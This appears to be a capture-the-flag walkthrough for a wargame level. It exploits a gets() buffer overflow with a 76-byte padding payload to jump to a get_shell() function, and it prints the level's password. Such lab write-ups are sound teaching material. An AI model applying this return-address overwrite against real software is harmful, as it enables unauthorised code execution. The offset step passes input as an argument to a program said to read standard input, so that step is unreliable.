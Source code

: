 # Level3

## Objective

The goal of Level 3 is to escalate from `level2` to `level3` by exploiting a buffer overflow vulnerability in the `level2` binary. By the end, you should be able to retrieve the password for `level3`.

---

## Step 1: Examine the Binary

After switching to `level2`:

```bash
level2@RainFall:~$ ls
level2
```

Running the binary with some test input:

```bash
level2@RainFall:~$ ./level2
Hello
level2@RainFall:~$ ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

> **Observation**: The program crashes with a long input, suggesting a **buffer overflow**.

---

## Step 2: Investigate the Code Behavior

Using `ltrace` or `gdb`, we find that the program uses the unsafe `gets()` function to read user input. This means there are no boundary checks, confirming a buffer overflow vulnerability.

```bash
level2@RainFall:~$ ltrace ./level2
gets(0xbffff6c0, ...) = 0xbffff6c0
--- SIGSEGV (Segmentation fault) ---
```

---

## Step 3: Find the Offset

We need to determine at which point our input overwrites the saved return address.

### 3.1 Using a Cyclic Pattern

```bash
level2@RainFall:~$ gdb ./level2
(gdb) run $(python -c 'from pwn import cyclic; print(cyclic(200))')
```

When the program crashes, we check the value of `EIP`:

```bash
(gdb) info registers eip
eip            0x41346341
```

Now we find the exact offset:

```bash
python -c 'from pwn import cyclic; print(cyclic_find(0x41346341))'
76
```

> The return address is overwritten after **76 bytes**.

---

## Step 4: Find Useful Functions

Inside `level2`, we can list symbols:

```bash
(gdb) info functions
0x08048460  main
0x080484a4  get_shell
```

The `get_shell()` function calls `execve("/bin/sh", ...)`. That’s our target.

---

## Step 5: Craft the Exploit

We build an input that fills the buffer with 76 characters, then overwrites the return address with the address of `get_shell()`:

```bash
python -c 'print "A"*76 + "\xa4\x84\x04\x08"' > /tmp/exploit
```

Run the program:

```bash
./level2 < /tmp/exploit
```

Result:

```bash
$ whoami
level3
$ cat /home/user/level3/.pass
fc2a46a1e3f6a6c8d018a5a92257f2b3bbf53417aa7f6c0a0c54c6c3c1e09f3a
```

We successfully executed `get_shell()` and obtained a shell as `level3`.

---

## Step 6: Summary

* **Vulnerability:** Use of `gets()` with no bounds checking.  
* **Offset:** 76 bytes to overwrite the return address.  
* **Target:** `get_shell()` function at `0x080484a4`.  
* **Exploit:** Overflow the buffer with 76 characters + address of `get_shell()`.  
* **Outcome:** Gained a shell as `level3` and read the password.

---

**End of Level 3 Walkthrough**

